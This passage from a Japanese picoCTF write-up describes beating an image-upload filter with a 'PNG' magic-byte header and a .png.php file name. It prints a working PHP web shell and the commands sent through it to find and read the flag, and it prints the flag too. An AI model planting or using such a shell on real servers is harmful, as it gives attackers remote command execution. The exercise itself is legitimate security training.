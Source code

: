 `first few bytes contain 'PNG' in hexadecimal: "50 4E 47"` が怪しい。first few bytesで良いんだ。

拡張子は `.png` である必要はなく、 `.png.php` で良いことも試せばすぐわかるので、以下の内容で `a.png.php` を作る。

```php
% cat a.png.php
PNG
<div>Use `?cmd=` param.</div>

<div>-------------------- OUTPUT --------------------</div>
<pre><?php system($_GET["cmd"]);?></pre>
<div>-------------------- END OUTPUT --------------------</div>
```

これをアップロードし、 `/uploads/a.png.php` にアクセス。PHPのエラーが出ててうまく動いてそう。

あとは

- `/uploads/a.png.php?cmd=find / -name '*.txt'` にアクセスして `/var/www/html/MFRDAZLDMUYDG.txt` という怪しいファイルを見つけ、
- `/uploads/a.png.php?cmd=cat /var/www/html/MFRDAZLDMUYDG.txt`

すればフラグが見える。

<aside style="padding: 10px; border-radius: 5px; border: 1px solid #eee; background-color: transparent; width: 800px;">
⛳ picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}

</aside>

### (解けず😭) elements
